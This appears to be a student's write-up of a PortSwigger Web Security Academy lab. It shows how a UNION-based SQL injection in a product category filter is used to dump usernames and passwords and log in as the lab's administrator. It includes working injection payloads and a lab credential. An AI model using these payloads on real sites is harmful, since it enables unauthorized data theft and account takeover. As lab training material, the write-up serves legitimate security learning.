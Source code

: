 ```yaml
---
title: 'Lab: SQL injection UNION attack, retrieving data from other tables'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection UNION attack, retrieving data from other tables
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
* Hint:  The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

#### Exp
1. Using all technique we learned before
According to union-based technique we learned before, we can consider there're 2 columns in this database and both of them are text strings
Payload: `?category=Lifestyle' UNION SELECT 'Title name','Post content'--`
2. Find the detailed info in `users` table
Payload: `?category=Lifestyle' UNION SELECT username, password FROM users--`
3. Login as administrator
Username: `administrator`
Password: `5kg73b7jinl9plif82d3`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/kiRM6bX.png)
    :::

## Reference